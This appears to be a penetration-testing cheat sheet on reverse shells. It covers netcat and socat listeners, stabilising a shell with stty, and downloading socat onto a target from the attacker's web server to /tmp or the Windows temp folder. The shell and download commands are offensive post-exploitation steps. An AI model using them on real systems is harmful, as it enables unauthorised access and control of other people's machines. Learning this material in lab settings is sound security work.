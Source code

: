 
## rlwrap listener & stabilization
```
rlwrap nc -lvnp <port>
```
>starts listener on host

background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell. 

---

## soCat stabilization

use a webserver on the attacking machine inside the directory containing your socat binary 
```
~sudo python3 -m http.server 80
```
then, on the target machine, using the netcat shell to download the file.
```
get <LOCAL-IP>/socat -O /tmp/socat
```
```
~Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

---

## Change terminal tty size~

First, open another terminal and run 
```
stty -a
```
This will give you a large stream of output. Note down the values for "rows" and columns

Next, in your reverse/bind shell, type in:
```
~stty rows <number>
~stty cols <number>	
```
This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

# socat

### Reverse Shell

```
socat TCP-L:<port> -
```
basic reverse shell listener in socat

>will work on Linux or Windows
